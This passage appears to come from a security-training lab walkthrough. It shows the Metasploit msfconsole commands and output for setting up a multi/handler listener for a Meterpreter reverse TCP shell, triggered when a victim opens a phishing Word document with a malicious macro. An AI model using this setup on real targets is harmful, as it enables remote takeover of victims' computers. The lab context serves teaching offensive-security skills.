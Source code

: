 Most of the AV already catch this file so, its pretty simple and informative only, let's check what would happen if a victim just downloaded this file:

## Listening for Incoming Connections

We again will use theÂ MetasploitÂ Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

- Open a new terminal window and runÂ `msfconsole`Â to start theÂ MetasploitÂ Framework
- `use multi/handler`Â to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp`Â to ensure that our payload works with the payload used when creating the malicious macro  
    
- `set LHOST CONNECTION_IP`Â specifies the IP address of the attackerâ€™s system and should be the same as the one used when creating the document
- `set LPORT 8888`Â specifies the port number you are going to listen on and should be the same as the one used when creating the document
- `show options`Â to confirm the values of your options
- `exploit`Â starts listening for incoming connections to establish a reverse shell

AttackBox Terminal

```shell-session
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on CONNECTION_IP:8888
```